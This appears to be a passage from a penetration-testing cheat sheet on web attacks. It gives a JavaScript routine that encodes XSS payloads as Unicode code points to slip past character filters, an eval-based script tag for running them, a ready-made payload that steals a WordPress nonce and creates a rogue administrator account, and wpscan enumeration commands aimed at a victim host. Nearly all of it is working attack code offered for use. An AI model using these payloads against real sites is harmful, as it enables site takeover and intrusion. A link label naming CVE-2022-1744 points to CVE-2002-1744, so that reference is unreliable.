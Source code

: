
When injecting XSS javascript payload, you may may want to ensure no characters get filtered. An easy way to ensure that is to encode the payload as Unicode code points.

```javascript
// Use the following code in your browser's console to encode the payload as Unicode code points.
function encode_javascript(minified_js) {
	return [...minified_js].map(function (c) { return c.codePointAt(0); }).join(",")
}
let encoded = encode_javascript("insert_minified_javascript") // replace with your payload
console.log(encoded)
```

Once the payload is encoded, insert the resulting array of integers into the following injected XSS script tag:

```html
<!-- replace digits with output from previous encoder -->
<script>eval(String.fromCodePoint(97,108,101,114,116,40,39,128526,39,41))</script>
<!-- example is code for "alert('😎')" -->
```



Here is an example script payload that creates an admin user on a vulnerable WordPress site by exploiting the vulnerable User-Agent header:

```javascript
// Collect WordPress nonce from admin user
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

// Create new admin account
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=derp&email=derp@derp.com&pass1=herpaderp&pass2=herpaderp&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```



### 4.5.8. WordPress

```sh
wpscan --update --url http://$VICTIM_IP/

# --enumerate options:
# p = Popular plugins
# vp = Vulnerable plugins
# ap = All plugins (takes a while)
# t = Popular themes
# vt = Vulnerable themes
# at = All themes (takes a while)
# cb = Config backups
# tt = Timthumbs
# dbe = Db exports
# u = usernames w/ ids 1-10
# m = media IDs 1-10
# NOTE: Value if no argument supplied: --enumerate vp,vt,tt,cb,dbe,u,m

# other useful flags:
# --login-uri URI
#     The URI of the login page if different from /wp-login.php
```

[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744